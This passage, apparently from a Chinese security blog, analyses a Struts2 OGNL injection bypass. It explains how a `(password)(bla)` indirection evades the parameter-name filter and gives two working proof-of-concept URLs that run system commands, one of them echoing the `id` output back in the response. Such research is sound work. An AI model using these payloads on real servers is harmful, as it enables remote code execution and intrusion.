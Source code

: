 注意这里的param需要是当前Action的一个类属性（也就是原本就存在的参数名），比如原本表单里就有password，那么你就可以在password里面填充OGNL表达式

因为在计算OGNL表达式`(password)(bla)`的时候(解析出两个ASTProperty)

![image-20200511171450014](/images/talk_about_struts2/image-20200511171450014.png)

后续再执行过程中，会去查找当前的action里面是否含有这个属性

![image-20200511171056619](/images/talk_about_struts2/image-20200511171056619.png)

`com.opensymphony.xwork2.ognl.accessor.CompoundRootAccessor#getProperty`

![image-20200511204523185](/images/talk_about_struts2/image-20200511204523185.png)

如果当前存在这个属性的时候，返回其内容

后续就是跟`(1)(2)`这种执行的原理一样，会以`(1)`作为node调用getValue。

这里巧妙的就是利用这种中转的方式，规避了参数名的正则检测

### POC

```java
?password=(%23_memberAccess.allowStaticMethodAccess=true,%23context['xwork.MethodAccessor.denyMethodExecution']=false,@java.lang.Runtime@getRuntime().exec('open /System/Applications/Calculator.app'))&z[(password)(bla)]=1
// 回显POC
?password=(%23_memberAccess.allowStaticMethodAccess=true,%23context['xwork.MethodAccessor.denyMethodExecution']=false,%23ret=@java.lang.Runtime@getRuntime().exec('id'),%23isr=new java.io.InputStreamReader(%23ret.getInputStream()),%23br=new java.io.BufferedReader(%23isr),%23res=new char[2000],%23br.read(%23res),%23writer=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23writer.println(new java.lang.String(%23res)),%23writer.flush(),%23writer.close())&z[(password)(bla)]=1
```

